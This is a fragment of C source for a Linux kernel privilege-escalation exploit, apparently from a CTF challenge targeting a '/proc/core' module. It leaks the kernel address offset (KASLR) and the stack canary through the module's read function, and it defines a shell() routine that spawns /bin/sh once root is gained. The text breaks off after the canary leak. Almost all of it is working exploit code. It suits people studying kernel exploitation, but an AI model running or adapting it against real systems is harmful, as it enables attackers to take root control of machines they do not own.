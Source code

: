 ```c
	char output_buffer[80];
	memset(output_buffer, '\0', 80);
	memset(output_buffer, ' ', 0x10);
	for(int i=0; i<(length % 16 == 0 ? length / 16 : length / 16 + 1); i++){
		char temp_buffer[0x10];
		memset(temp_buffer, '\0', 0x10);
		sprintf(temp_buffer, "%#5x", index);
		strcpy(output_buffer, temp_buffer);
		output_buffer[5] = ' ';
		output_buffer[6] = '|';
		output_buffer[7] = ' ';
		for(int j=0; j<16; j++){
			if(index+j >= length)
				sprintf(output_buffer+8+3*j, "   ");
			else{
				sprintf(output_buffer+8+3*j, "%02x ", ((int)buf[index+j]) & 0xFF);
				if(!isprint(buf[index+j]))
					output_buffer[58+j] = '.';
				else
					output_buffer[58+j] = buf[index+j];
			}
		}
		output_buffer[55] = ' ';
		output_buffer[56] = '|';
		output_buffer[57] = ' ';
		printf("%s\n", output_buffer);
		memset(output_buffer+58, '\0', 16);
		index += 16;
	}
}

void shell(){
	if(getuid()){
		printf("\033[31m\033[1m[x] Error: Failed to get root, exiting......\n\033[0m");
		exit(1);
	}
	printf("\033[32m\033[1m[+] Getting the root......\033[0m\n");
	system("/bin/sh");
	exit(0);
}

int main(){
	saveStatus();
	fd = open("/proc/core", 2);		// open the process
	if(!fd){
		printf("\033[31m\033[1m[x] Error: Cannot open process \"core\"\n\033[0m");
		exit(1);
	}
	char buffer[0x100] = {0};
	get_function_address();		// get addresses of two key function
	
	unsigned long long base_offset = commit_creds - commit_creds_base;
	printf("\033[34m\033[1m[*] KASLR offset: \033[0m%#llx\n", base_offset);
	
	change_off(0x40);			// change the offset so that we can get canary later
	core_read(buffer);			// get canary
	
	printf("\033[34m\033[1m[*] Contents in buffer here:\033[0m\n");	// print content in buffer
	print_binary(buffer, 0x40);
	
	unsigned long long canary = ((size_t*)&buffer)[0];
	printf("\033[35m\033[1m[*] The value of canary is the first 8 bytes: \033[0m%#llx\n", canary);
	
```